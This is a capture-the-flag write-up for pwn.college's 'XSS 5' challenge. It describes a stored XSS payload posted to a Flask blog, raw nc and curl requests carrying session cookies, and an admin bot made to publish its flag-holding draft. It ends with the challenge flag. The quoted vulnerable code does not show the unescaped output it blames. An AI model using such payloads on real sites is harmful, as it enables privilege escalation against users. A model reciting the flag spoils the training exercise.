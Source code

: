 # 🛡️ XSS 5 — Writeup

## 📁 Challenge Information

- **Category**: Web Exploitation
- **Challenge Name**: XSS 5
- **Platform**: pwn.college
- **Tags**: `XSS`, `Stored XSS`, `Session`, `JavaScript`, `Cookie`, `CSRF`, `Privilege Escalation`

---

## 🔍 Description

This challenge involves stored cross-site scripting (XSS) in a Flask blogging platform with basic user authentication and draft publishing. The goal is to exploit stored XSS to escalate privileges and extract the flag.

---

## 📜 Server Source Code Highlights

- Posts are stored in an SQLite database.
- Authenticated users can:
  - Submit new posts via `/draft`
  - Publish drafts via `/publish`
- Posts can be **drafts** or **published**
- Published posts are shown in full; drafts show only 12 characters
- Users login via `/login`, setting a session cookie

### Key Vulnerable Code:

```python
content = flask.request.form.get("content", "")
db.execute(
    "INSERT INTO posts (content, author, published) VALUES (?, ?, ?)",
    (content, flask.session.get("username"), bool(flask.request.form.get("publish"))),
)
```

- **User-controlled content** is inserted **directly** into HTML pages.

---

## 🧠 Exploitation Strategy

- Login as user `hacker` with password `1337`
- Inject malicious JavaScript in a **published** post via `/draft`
- Use `<script>` to make the **victim (admin bot)** visit `/publish`, which will auto-publish admin's draft containing the flag
- Then view published admin posts to get the flag

---

## 🧪 Steps to Exploit

### 1. Login as `hacker`

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```

✔️ Gets session cookie:
```
session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH2Sqw.y37LtS4n1cbnXd3TKeAUXgudk7E
```

---

### 2. Inject Payload via /draft

Payload:
```html
<script>fetch('http://challenge.localhost/publish')</script>
```

HTTP Request:
```bash
printf "POST /draft HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:79\r\nCookie:session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH2Sqw.y37LtS4n1cbnXd3TKeAUXgudk7E\r\n\r\ncontent=<script>fetch('http://challenge.localhost/publish')</script>&publish=on" | nc challenge.localhost 80
```

✅ The post is now published and will execute JS in any visitor’s browser (including the bot).

---

### 3. Trigger Victim Visit

```bash
/challenge/victim
```

✔️ Bot visits home page, executes injected JS, and makes a GET request to `/publish` as **admin**

---

### 4. Re-login and View Admin's Published Post

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```

Copy new session cookie from response.

Then:

```bash
curl -b "session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH2S3g.VbKjGM-Rm5oA5HJV-E2nFw6fEcw" http://challenge.localhost/
```

✔️ Output includes:

```html
<h2>Author: admin</h2>pwn.college{8Qa3k3ZIdM56U9sB0WZHIZ3rw_c.QX2kzMzwSM0IzMyEzW}
```

---

## 🏁 Flag

```
pwn.college{8Qa3k3ZIdM56U9sB0WZHIZ3rw_c.QX2kzMzwSM0IzMyEzW}
```

---

